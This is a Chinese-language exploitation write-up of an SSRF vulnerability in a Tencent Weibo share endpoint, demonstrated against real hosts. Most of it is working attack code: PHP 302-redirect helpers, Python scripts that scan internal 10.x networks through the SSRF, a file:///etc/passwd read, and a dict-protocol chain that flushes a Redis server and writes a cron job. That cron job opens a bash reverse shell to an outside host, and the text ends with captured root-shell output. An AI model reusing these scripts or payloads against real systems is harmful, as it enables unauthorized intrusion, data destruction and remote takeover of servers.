

原文 by ringzero
  

  
## 1. 描述
  

  
本文章将概述一些经典的SSRF漏洞利用原理，从Fuzz扫描开放的服务到漏洞的自动化利用，刚好腾讯的这个漏洞点，非常适合做为案例来演示。
  

  
### 1.1 漏洞信息
  

  
腾讯微博应用 http://share.v.t.qq.com
  
SSRF利用点，参数: url
  
http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://wuyun.org
  

  
### 1.2 服务端回显
  

  
当从ssrf利用点发起一个远程请求，如果url资源存在，且MIME类型为HTML，服务端的脚本会分析出HTML页面内的title、img 等等资源，返回给客户端。如果MIME是其它类型，将直接返回原文
  
#### 例1 请求远程服务器的22端口，直接回显OpenSSH的banner信息
  
```
  
[root@localhost wyssrf]# curl 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://fuzz.wuyun.org:22'
  
{"ret":0,"data":{"type":1,"title":"SSH-2.0-OpenSSH_5.3..."}}
  
```
  

  
#### 例2 请求远程服务器的80端口，回显HEAD和图片资源
  
```
  
[root@localhost wyssrf]# curl 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://www.baidu.com'
  
{"ret":0,"data":{"type":2,"pics":["http:\/\/www.baidu.com\/img\/baidu_sylogo1.gif"],"title":"\u767e\u5ea6\u4e00\
  
\u4e0b\uff0c\u4f60\u5c31\u77e5\u9053"}}
  
```
  

  
#### 例3 请求不存在的服务器或未开放的端口
  
```
  
[root@localhost wyssrf]# curl 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://fuzz.wuyun.org:8888'
  
{"ret":1}
  
```
  

  
### 1.3 利用场景
  
假设 victimsite/index.php 是这样实现的：代码中使用curl请求参数url对应的资源，跟随跳转并返回给客户端
  
``` php
  
<?php
  
        $url = $_GET['url'];
  
        $ch = curl_init();
  
        curl_setopt($ch, CURLOPT_URL, $url);
  
        curl_setopt($ch, CURLOPT_HEADER, false);
  
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
  
        curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
  
        curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.11 (KHTML, like Gecko) 
  
                                            Chrome/23.0.1271.1 Safari/537.11');
  
        // 允许302跳转
  
        curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
  
        $res = curl_exec($ch);
  
        // 设置content-type
  
        header('Content-Type: image/png');
  
        curl_close($ch) ;
  
        //返回响应
  
        echo $res;
  
?>
  
```
  

  
Location 302跳转辅助脚本 [302.php]
  
``` php
  
<?php
  
$ip = $_GET['ip'];
  
$port = $_GET['port'];
  
$scheme = $_GET['s'];
  
$data = $_GET['data'];
  
header("Location: $scheme://$ip:$port/$data");
  
?>
  
```
  

  
### 1.4 服务端支持协议
  

  
#### Dict协议 -> dict://fuzz.wuyun.org:8080/helo:dict
  

  
`victimsite/index.php?url=attacksite/302.php?s=dict&ip=fuzz.wuyun.org&port=8080&data=helo:dict`
  
```
  
[root@(fuzz.wuyun.org)localhost wyssrf]# nc -l -vv 8080
  
Connection from 113.108.10.15 port 8080 [tcp/webcache] accepted
  
CLIENT libcurl 7.15.1
  
helo dict
  
QUIT
  
```
  

  
#### Gopher协议 -> gopher://fuzz.wuyun.org:8080/gopher
  

  
`victimsite/index.php?url=attacksite/302.php?s=gopher&ip=fuzz.wuyun.org&port=8080&data=gopher`
  
```
  
[root@localhost wyssrf]# nc -l -vv 8080
  
Connection from 113.108.10.16 port 8080 [tcp/webcache] accepted
  
GET /gopher HTTP/1.1
  
Host: 106.75.199.107:8080
  
Accept: */*
  
```
  
gopher协议：
  
```
  
victimsite/index.php?url=gopher%3A%2F%2F106.75.199.107%3A80%2F_GET%2520%2FTst_SsrF.html
  
%2520HTTP%2F1.1%250d%250aHost%3A%2520106.75.199.107%250d%250aConnection%3A%2520close%250d%250a
  
Content-Length%3A%25200%250d%250a%250d%250a%250d%250a
  
```
  
经过测试发现 Gopher 的以下几点局限性：
  

  
* 大部分 PHP 并不会开启 fopen 的 gopher wrapper
  
* file_get_contents 的 gopher 协议不能 URLencode
  
* file_get_contents 关于 Gopher 的 302 跳转有 bug，导致利用失败
  
* PHP 的 curl 默认不 follow 302 跳转
  
* curl/libcurl 7.43 上 gopher 协议存在 bug（%00 截断），经测试 7.49 可用
  

  
下图是各种语言对各种协议的支持情况：
  

  

  
#### File协议 -> file:///etc/passwd
  

  
这里需要一个辅助脚本[file.php]
  
``` php
  
<?php
  

  
header("Location: file:///etc/passwd");
  
?>
  
```
  

  
服务器请求302跳转，直接读取到服务器本地文件
  
``` 
  
[root@localhost wyssrf]# curl 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://fuzz.wuyun.org/file.php'
  
{"ret":0,"data":{"type":1,"title":"root:x:0:0:root:\/root:\/bin\/bash bin:x:1:..."}}
  
```
  

  
#### 综上所述得出结论
  

  

  
从回显结果可以判断服务端的curl为低版本的 7.15.1，支持dict,ftp,gopher,dict, file等协议
  
```
  
[root@localhost wyssrf]# curl -V
  
Protocols: tftp ftp telnet dict gopher ldap ldaps http file https ftps scp sftp
  
```
  

  
## 2. 漏洞利用
  

  
鉴于gopher://是一个万金油的服务，这里不对该协议进行利用描述，相关技术大家可以自行Google，本文重点讲解如何探测开放的网络服务和漏洞利用。
  

  

  
### 2.1 对开放的网络服务进行探测
  

  

  
这个漏洞地址是t.qq.com，腾讯微博的，确定内网地址，只需要开启域名穷举即可，比如：
  

  
PING demo.t.qq.com (10.133.42.26) ，就大概知道腾讯微博的内网地址
  

  
针对固定的10.网络 B段、C段进行遍历探测
  
``` python
  
#!/usr/bin/env python
  
# encoding: utf-8
  
# email: ringzero@0x557.org
  

  
import requests
  
import time
  
import random
  

  
port = '80'
  

  
# fuzz local C 
  
for c in xrange(0,255):
  
    for d in xrange(0,255):
  
        ip = '10.133.{0}.{1}'.format(c,d)
  
        payload = 'http://{ip}:{port}/'.format(ip=ip,port=port)
  
        url = 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url={payload}'.format(
  
            payload=payload)
  
        # len({"ret":1}) == 9
  
        if len(requests.get(url).content) != 9:
  
            print ip, port, 'OPEN', requests.get(url).content
  

  
```
  
随机针对内网10.网段进行探测
  

  
``` python
  
#!/usr/bin/env python
  
# encoding: utf-8
  
# email: ringzero@0x557.org
  

  
import requests
  
import time
  
import random
  

  
port = '80'
  

  
# random fuzz local ip
  
while True:
  
    ip = '10.{0}.{1}.{2}'.format(random.randint(1, 254),random.randint(1, 254),random.randint(1, 254))
  
    payload = 'http://{ip}:80/'.format(ip=ip)
  
    url = 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url={payload}'.format(
  
        payload=payload)
  
    # len({"ret":1}) == 9
  
    if len(requests.get(url).content) != 9:
  
        print ip, port, 'OPEN', requests.get(url).content
  
```
  

  
### 2.2 对已开放的服务进行漏洞利用
  

  
这里描述的利用内容，使用的dict协议，dict提供了一个非常棒的功能 `dict://serverip:port/name:data`，
  

  
向服务器的端口请求 name data，并在末尾自动补上\r\n(CRLF)，为漏洞利用增添了便利。
  

  
REDIS Server的命令接收格式为： `command var data \r\n`
  

  
实战利用代码如下：
  

  
``` python
  
#!/usr/bin/env python
  
# encoding: utf-8
  
# email: ringzero@0x557.org
  

  
import requests
  

  
host = '42.62.67.198'
  
port = '6379'
  
bhost = 'fuzz.wuyun.org'
  
bport = '8080'
  

  
vul_httpurl = 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url='
  
_location = 'http://fuzz.wuyun.org/302.php'
  
shell_location = 'http://fuzz.wuyun.org/shell.php'
  

  
#1 flush db
  
_payload = '?s=dict%26ip={host}%26port={port}%26data=flushall'.format(
  
    host = host,
  
    port = port)
  
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(_location, _payload, vul_httpurl=vul_httpurl)
  
print exp_uri
  
print requests.get(exp_uri).content
  

  
#2 set crontab command
  
_payload = '?s=dict%26ip={host}%26port={port}%26bhost={bhost}%26bport={bport}'.format(
  
    host = host,
  
    port = port,
  
    bhost = bhost,
  
    bport = bport)
  
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(shell_location, _payload, vul_httpurl=vul_httpurl)
  
print exp_uri
  
print requests.get(exp_uri).content
  

  
#3 config set dir /var/spool/cron/
  
_payload = '?s=dict%26ip={host}%26port={port}%26data=config:set:dir:/var/spool/cron/'.format(
  
    host = host,
  
    port = port)
  
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(_location, _payload, vul_httpurl=vul_httpurl)
  
print exp_uri
  
print requests.get(exp_uri).content
  

  
#4 config set dbfilename root
  
_payload = '?s=dict%26ip={host}%26port={port}%26data=config:set:dbfilename:root'.format(
  
    host = host,
  
    port = port)
  
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(_location, _payload, vul_httpurl=vul_httpurl)
  
print exp_uri
  
print requests.get(exp_uri).content
  

  
#5 save to file
  
_payload = '?s=dict%26ip={host}%26port={port}%26data=save'.format(
  
    host = host,
  
    port = port)
  
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(_location, _payload, vul_httpurl=vul_httpurl)
  
print exp_uri
  
print requests.get(exp_uri).content
  
```
  

  
shell.php 辅助脚本 [shell.php]
  
``` php
  
<?php
  
$ip = $_GET['ip'];
  
$port = $_GET['port'];
  
$bhost = $_GET['bhost'];
  
$bport = $_GET['bport'];
  
$scheme = $_GET['s'];
  
header("Location: $scheme://$ip:$port/set:0:\"\\x0a\\x0a*/1\\x20*\\x20*\\x20*\\x20*\\x20/bin/bash\\x20-i\\x20>\\x26
  
\\x20/dev/tcp/{$bhost}/{$bport}\\x200>\\x261\\x0a\\x0a\\x0a\"");
  
?>
  
```
  

  
## 3. 漏洞证明
  

  
配置利用变量
  

  
`reinhard$ python wyssrf.py `
  
Usage:
  
```
  
    wyssrf config -u <url> -p <param> [--data <data>]
  
    wyssrf config --show
  
    wyssrf plugin --list
  
    wyssrf exploit --list
  
    wyssrf (-i | --interactive)
  
    wyssrf (-h | --help | --version)
  
```
  

  
`reinhard$ python wyssrf.py config -u 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://wuyun.org' -p url`
  

  
[INFO] config file save success...
  

  
### 3.1 针对redis进行漏洞利用
  

  

  
根据上面的原理做成利用脚本
  

  
`reinhard$ python wyssrf.py -i`
  
Welcome to WYSSRF Exploit FrameWork (type help for a list of commands.)
  

  
console> show config
  
```
  
{
  
    "url": "http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://wuyun.org", 
  
    "method": "GET", 
  
    "param": "url"
  
}
  
```
  
console> redis -h
  
Usage:
  

  
    redis shell <host> <port> <bhost> <bport> [--type=<TYPE>]
  

  
    redis ssh <host> <port> <keyfile> [--type=<TYPE>]
  

  

  
Options:
  

  
    -t, --type=<TYPE>     request protocol type [default: dict]
  

  
console> redis shell 42.62.67.198 6379 fuzz.wuyun.org 8080 --type dict
  
```
  
[INFO] Exploit 42.62.67.198 6379 Start...
  

  
[INFO] #1 flush redis db
  

  
[INFO] #2 set crontab command
  

  
[INFO] #3 config set dir /var/spool/cron/
  

  
[INFO] #4 config set dbfilename root
  

  
[INFO] #5 save to file
  

  
[INFO] Exploit Successs...
  

  
console> quit
  

  
Good Bye!
  
```
  

  
查询远程Redis服务器的信息
  
```
  
reinhard$ redis-cli -h 42.62.67.198 config get dir
  
1) "dir"
  
2) "/var/spool/cron"
  
reinhard$ redis-cli -h 42.62.67.198 config get dbfilename
  
1) "dbfilename"
  
2) "root"
  
```
  

  
成功获得Redis服务器Shell
  
```
  
[root@fuzz.wuyun.org]# nc -l -vv 8080
  
Connection from 42.62.67.198 port 8080 [tcp/webcache] accepted
  
bash: no job control in this shell
  
[root@10-6-17-197 ~]# id
  
id
  
uid=0(root) gid=0(root) groups=0(root)
  
[root@10-6-17-197 ~]# cat /var/spool/cron/root
  
cat /var/spool/cron/root
  
REDIS0006™@B
  

  
*/1 * * * * /bin/bash -i >& /dev/tcp/fuzz.wuyun.org/8080 0>&1
  

[root@10-6-17-197 ~]#
  
```

## Reference
[SSRF绕过方法总结](https://www.secpulse.com/archives/65832.html)    
 
